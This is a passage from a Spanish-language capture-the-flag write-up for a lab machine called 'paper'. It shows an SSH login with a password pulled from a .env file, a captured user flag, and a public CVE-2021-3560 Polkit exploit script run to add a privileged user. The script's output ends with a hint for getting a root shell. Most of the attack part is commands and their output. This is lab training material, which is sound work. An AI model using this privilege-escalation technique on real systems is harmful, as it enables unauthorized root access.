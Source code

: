 ### Captura flag usuario

Con la contraseña obtenida del archivo .env, se intentó acceder vía SSH al sistema usando el usuario dwight. La autenticación fue exitosa, otorgando acceso a un shell remoto en la máquina objetivo, lo que confirma que la información extraída es válida y permite control directo sobre el sistema.
```bash
❯ ssh dwight@10.10.11.143
dwight@10.10.11.143's password: Queenofblad3s!23
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

```bash
[dwight@paper ~]$ ls
bot_restart.sh  hubot  sales  user.txt
[dwight@paper ~]$ cat user.txt
0ce221c754da287bedefad5995b495e2
```

## CVE-2021-3560-Polkit-Privilege-Esclation
Para escalar privilegios a root, se aprovechó la vulnerabilidad [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh) en Polkit, que permite la creación de un usuario con privilegios elevados sin necesidad de autenticación previa. Tras ejecutar el script, se logró insertar un nuevo usuario llamado secnigma.
```bash
[dwight@paper ~]$ cd /tmp
[dwight@paper tmp]$ nano poc.sh
[dwight@paper tmp]$ chmod +x poc.sh
[dwight@paper tmp]$ ./poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```
